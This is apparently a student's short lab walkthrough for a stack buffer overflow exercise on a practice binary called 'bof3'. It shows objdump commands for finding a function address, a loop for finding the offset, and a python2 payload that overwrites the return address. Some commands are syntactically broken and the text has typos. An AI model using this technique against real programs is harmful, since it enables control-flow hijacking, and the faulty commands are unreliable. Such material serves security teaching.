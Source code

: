 # Return to address change
# TARGET FILE : bof3


***TASK1***
What does?<br>
:it is check function address <br>

1.objdump symbol check! <br>
Method 1 : objdump -d -M intel bof3 | grep -A20 main.: <br>
Method 2 : objdump -t bof3 |grep main <br>

***TASK2***<br>
Q.) waht does? <br>
A.) Find Offset use buffer overflow <br>

How to) <br>
:for i in {0..50}; echo $i; python -c "print 'A'$i + 'function address' "| ./bof3; done <br>

***TASK3***<br>
Q.) Payloads <br>
A.) python2 -c "print 'a'*offset + 'function address (little endian)'" | ./target_file <br>

How to) <br>
:python2 -c "print  'a'*44 +'{function address (lttile endian) }'" | ./bof3 <br>





